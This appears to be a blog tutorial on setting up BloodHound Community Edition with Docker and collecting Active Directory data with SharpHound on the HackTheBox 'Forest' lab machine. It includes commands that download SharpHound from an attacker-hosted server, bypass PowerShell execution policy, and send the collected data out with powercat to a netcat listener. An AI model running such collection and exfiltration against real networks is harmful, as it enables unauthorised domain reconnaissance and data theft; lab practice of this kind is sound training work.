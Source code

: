
---
title: "How to Setup BloodHound Community Edition"
summary: "Quick explanation on how to get BloodHound up and running in a few minutes! This post include a step by step installation guide of **BloodHound**, as well as downloading **SharpHound** and uploading it to a machine in order to map out an Active Directory Network."
categories: ["Post","Blog",]
tags: ["post","bloodhound","sharphound"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-11

- - -
## BloodHound 
**BloodHound** is a powerful and widely used tool in the field of cybersecurity, particularly for penetration testers in _Corporative Enviroments_. It is designed to map and analyze Active Directory structures, helping identify security misconfigurations and potential attack paths that an adversary could exploit to escalate privileges or gain access to sensitive resources.

**BloodHound** operates by collecting and visualizing relationships within an AD domain. These relations include group memberships, user permissions, trust relationships, and more. The tool’s strength lies in its ability to uncover complex chains of privileges that might be invisible to administrators manually auditing AD security.

We will do a quick installation step by step of the Community Version of **BloodHound**, as well and a small step by step tutorial on how to run both **BloodHound** and **SharpHound** taking as an example the [Forest]({{< ref "/content/en/post/forest/index.md" >}} "Forest") Machine from HackTheBox. Check it out if you haven't already!

Let's begin!

- - -
## Installation
First, we need to install _Docker_:

```bash
kali@kali:~$ sudo apt install -y docker.io

kali@kali:~$ sudo systemctl enable docker --now
```

Then, create the _docker_ group if it does not exist:

```bash
kali@kali:~$ sudo groupadd docker
```

Add your user to the _docker_ group:

```bash
kali@kali:~$ sudo usermod -aG docker $USER
```

Now, install **docker-compose** form [github](https://github.com/docker/compose/). Also, remember to give execution rights to the binary and add it to the `/usr/bin` directory.

```bash
kali@kali:~$ mv ./docker-compose-linux-aarch64 docker-compose
kali@kali:~$ chmod +x ./docker-compose
kali@kali:~$ mv ./docker-compose /usr/bin/
```

Lastly, we need to copy the **BloodHound** `docker-compose.yml` file to save it locally:

```bash
kali@kali:~$ sudo wget https://ghst.ly/getbhce -O docker-compose.yml
kali@kali:~$ docker-compose up
```

**BloodHound** will be available on port 8080.

- - -
## SharpHound
**SharpHound** is the data collection component of BloodHound. It is a C# tool designed to gather information from Active Directory environments, which is then used by BloodHound to map and analyze attack paths. SharpHound collects data such as user sessions, group memberships, ACLs, and trust relationships, giving penetration testers and security analysts a detailed view of the environment.

The collected data is stored in JSON files, which are later imported into BloodHound for visualization and analysis. Together, SharpHound and BloodHound are a powerful duo for identifying and understanding security weaknesses in AD domains.

- - -
## BloodHound  and SharpHound Usage

First, let's log into **BloodHound**. We have it already running, so we need to access it on `http://localhost:8080`.

![bloodhound1](/img/bloodhound/bloodhound1.png)

> The first time we access **BloodHound**, we will need to input the random generated password found on the terminal window where `docker-compose` is running. Then, we will need to change it. The default user is **admin**.

![bloodhound9](/img/bloodhound/bloodhound9.png)

Now on the _Download Collectors_ tab, we can download the latest version of **SharpHound**:

![bloodhound3](/img/bloodhound/bloodhound3.png)

Here, select **SharpHound**, and we’re almost ready to start collecting data! Just a few more steps:

![bloodhound4](/img/bloodhound/bloodhound4.png)

Next, upload the **SharpHound** executable to the Windows machine whose Active Directory you intend to map. From our Attacker Machine, we serve **SharpHound** from a _Python_ Server:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound/sharphound]
└─$ python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

From the Windows Machine, we download **SharpHound** with the following command:

```powershell
PS C:\Users\svc-alfresco\Desktop> iwr -uri http://10.10.14.18/SharpHound.ps1 -Outfile SharpHound.ps1
```

After transfer it to the Windows Machine, we can import it to PowerShell:

```powershell
PS C:\Users\svc-alfresco\Desktop> powershell -ep bypass

PS C:\Users\svc-alfresco\Desktop> Import-Module .\Sharphound.ps1
```

Now, we can run the script to collect all the information from the domain. **SharpHound** primarily relies on `LDAP` queries to gather data from Active Directory. Since LDAP queries are a standard part of domain communication, any domain-authenticated user can execute them, which is why SharpHound doesn’t require administrative privileges for most of its operations.

```powershell
PS C:\Users\svc-alfresco\Desktop> Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Desktop\ -OutputPrefix "forest"
```

After executing, we'll see a **zip** file with all the information. That's what we need to transfer back to our attacking machine. The .bin file that **BloodHound** generates is a binary file used as a cache for preprocessed data. When you import JSON files collected by SharpHound into BloodHound, it processes the data and stores it in a Neo4j database. 

The `.bin` file serves as a local cache of this processed data to improve performance, but we don't necesarilly need to transfer it back to our machine, so we will ignore it.

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ls


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        1/10/2025   9:29 AM          43554 forest_20250110092905_BloodHound.zip
-a----        1/10/2025   9:15 AM        1942029 SharpHound.ps1

```

We can use our favorite transfer method, I will use `powercat.exe`:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> powercat -c 10.10.14.18 -p 4444 -i C:\Users\svc-alfresco\Desktop\forest_20250110092905_BloodHound.zip
```

On our Attacking Machine, we need to open a `netcat` listener in order to receive the data:

```bash
┌──(s3n㉿kali)-[/opt/bloodhound]
└─$ sudo nc -nlvp 4444 > bloodhound.zip   
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.161] 50906
```

Once we have the zip file locally on our machine, let's upload it to **BloodHound**. First, press the _Administration_ option.
![bloodhound2](/img/bloodhound/bloodhound2.png)

Import the zip file in the _File Ingest_ option, in the _Data Collection_ section:

![bloodhound10](/img/bloodhound/bloodhound10.png)

Click and Select the _zip_ file

![bloodhound5](/img/bloodhound/bloodhound5.png)

Nice! It was succesfully uploaded.

![bloodhound6](/img/bloodhound/bloodhound6.png)

Teaching how to do queries with **BloodHound** it out of the scope of this post, but let's run a quick "_Shortest Paths to Domain Admins_" query to check if the ingestion of the data was successful.
![bloodhound7](/img/bloodhound/bloodhound7.png)

It works! You now have a fully functional **BloodHound** instance up and running, ready to map out and analyze your Active Directory environment. 

## Stopping the Instance

Stopping the instance is as easy as pressing `Ctrl+C` on the terminal window where `docker-compose` is running.

![bloodhound8](/img/bloodhound/bloodhound8.png)

If you want to set it up again, just do `docker-compose up` and you are good to go.

I hope this guide was helpful in getting everything set up smoothly, as setting up a **BloodHound** environment could be tricky at first. Give it a try! 